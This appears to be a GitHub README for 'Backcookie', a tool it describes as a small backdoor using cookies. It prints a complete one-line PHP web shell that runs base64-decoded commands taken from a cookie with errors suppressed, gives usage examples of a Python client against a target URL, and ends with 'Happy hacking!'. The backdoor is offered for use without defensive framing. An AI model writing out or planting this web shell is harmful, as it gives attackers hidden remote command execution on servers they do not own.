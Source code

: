 backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/jofpin/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/jofpin/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["yourcookie"])); ?>
```

```
Example one: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
```
Example two: python backcookie.py --url http://target.com/shell.php --cookie name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

* Inserted in -> [blackarch](http://blackarch.org/tools.html)

## Happy hacking!

-------------

Copyright, 2013 by [Jose Pino](http://twitter.com/jofpin)

-------------

